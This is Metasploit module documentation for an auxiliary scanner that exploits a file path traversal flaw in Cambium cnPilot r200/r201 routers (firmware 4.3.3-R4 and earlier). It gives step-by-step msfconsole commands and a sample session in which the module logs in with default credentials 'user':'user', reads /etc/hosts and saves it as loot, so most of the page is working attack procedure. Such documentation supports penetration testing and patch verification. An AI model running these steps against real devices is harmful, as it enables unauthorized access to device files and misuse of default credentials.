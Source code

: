 This module exploits a File Path Traversal vulnerability in Cambium cnPilot r200/r201 devices to read arbitrary files off the file system. Affected versions - 4.3.3-R4 and prior.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/cnpilot_r_fpt```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set FILENAME [filename]```
5. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/cnpilot_r_fpt
msf auxiliary(cnpilot_r_fpt) > set RHOSTS 1.3.3.7
msf auxiliary(cnpilot_r_fpt) > set RPORT 80
msf auxiliary(cnpilot_r_fpt) > set FILENAME /etc/hosts
msf auxiliary(cnpilot_r_fpt) > run

[+] 1.3.3.7:80 - Cambium cnPilot confirmed...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "user":"user"
[*] 1.3.3.7:80 - Accessing the file...
[+] 127.0.0.1 localhost.localdomain localhost

[+] File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_fptlog_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


  ```
